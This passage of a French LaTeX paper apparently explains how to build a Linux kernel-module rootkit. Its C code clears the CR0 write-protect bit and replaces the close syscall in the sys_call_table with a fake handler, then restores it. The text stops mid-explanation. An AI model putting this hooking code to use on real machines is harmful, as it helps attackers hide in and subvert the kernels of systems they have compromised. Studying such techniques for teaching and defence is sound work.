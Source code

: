 \documentclass[journal, a4paper]{IEEEtran}
\begin{document}
\section{Ecraser la sys\_call\_table}

Nous utiliserons un LKM (Linux Kernel Module) pour faire notre rootkit. Ceci implique qu'un attaquant devra nécessairement avoir un accès \textit{root} à la machine pour y installer le rootkit.  Nous ne verrons pas en détails la fonction qui retrouve l'adresse de la \textit{sys\_call\_table} car la section précédente est assez claire à ce sujet. Néanmoins nous allons apporter quelques précisions sur comment "hook" les appels systèmes.

La première difficulté est que la page mémoire contenant la \textit{sys\_call\_table} est en \textit{READ-ONLY}. Il est donc nécessaire de modifier temporairement le registre \textit{CR0}. C'est un registre de contrôle sur 32 bits qui régit le comportement du processeur. La partie qui nous intéresse est la protection d'écriture codée sur le 16 ème bits. Elle permet ou non au processeur d'écrire sur une page mémoire en \textit{READ-ONLY} :
\begin{lstlisting}[style=CStyle]
static void hook_syscall(void) {
  if (!sys_call_table) {
    printk(KERN_INFO "failed to hook syscall64, sys_call_table address is missing");
    return;
  }
  
  write_cr0(read_cr0() & ~0x10000);
  real_close = sys_call_table[__NR_close];
  sys_call_table[__NR_close] = fake_close;
  write_cr0(read_cr0() | 0x10000);
}

static void unhook_syscall(void) {
  if (!sys_call_table) {
    printk(KERN_INFO "failed to reset syscall, sys_call_table address is missing");
    return;
  }
  
  write_cr0(read_cr0() & ~0x10000);
  sys_call_table[__NR_close] = real_close;
  write_cr0(read_cr0() | 0x10000);
}
\end{lstlisting}
Le deuxième obstacle est au niveau de la déclaration des appels système. D'après le header (linux/syscalls.h) du noyau, la fonction qui représente l'appel système \textit{sys\_close()} est de la forme :
\begin{lstlisting}[style=CStyle]
asmlinkage long sys_close(unsigned int fd);
\end{lstlisting}
On pourrait croire qu'il suffit de reprendre la même syntaxe pour notre pointeur de fonction. Le problème est que cela amène à un "kernel panic". Pour comprendre il faut regarder l'appel à la \textit{sys\_call\_table} dans la fonction \textit{do\_syscall\_64} :
\end{document}
